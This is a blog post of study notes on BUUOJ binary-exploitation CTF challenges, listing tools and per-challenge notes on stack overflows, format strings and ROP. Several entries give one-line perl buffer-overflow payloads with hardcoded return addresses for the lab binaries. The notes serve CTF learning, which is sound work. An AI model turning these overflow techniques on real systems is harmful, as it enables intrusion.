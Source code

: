 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn"
date:   2020-07-18 12:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault??? _TODO_
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. amd64, C `gets`
   2. overwrite a variable and bypass
   3. floating point number comparison
      1. more info about `xmm0` [SSE registers](https://en.wikibooks.org/wiki/X86_Assembly/SSE#Registers):
         1. [saturation arithmetic](https://en.wikipedia.org/wiki/Saturation_arithmetic) and [clamping](https://en.wikipedia.org/wiki/Clamping_(graphics))
         2. SIMD instructions
   4. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**post**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**script**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. x86, NX enabled and stripped
   2. C `read`
   3. `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**script**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1. x86 and NX enabled
   2. c `gets`
   3. `get_flag` and **peaceful exit**
10. [**script**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5:
    1.  x86, NX enabled, canary found and stripped
    2.  [**format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**script**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0:
    1.  amd64 and NX enabled
    2.  c `read`
    3.  `system` and `"/bin/sh"` found
12. [**script**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1.  x86 and NX enabled
    2.  `system` and `"/bin/sh"` found
    3.  truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**script**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**script**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016
    1.  [ROP]({{ site.url }}/assets/not_the_same_3dsctf_2016.py), or
    2.  [mprotect(.bss)](https://zhuanlan.zhihu.com/p/141065867), read and shellcode _TODO_
15. [**script**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop.py) [HarekazeCTF2019]baby_rop
16. [**script**]({{ site.url }}/assets/BJDCTF_2nd_one_gadget.py) [BJDCTF 2nd]one_gadget
    1.  The [one_gadget](https://github.com/david942j/one_gadget) tool
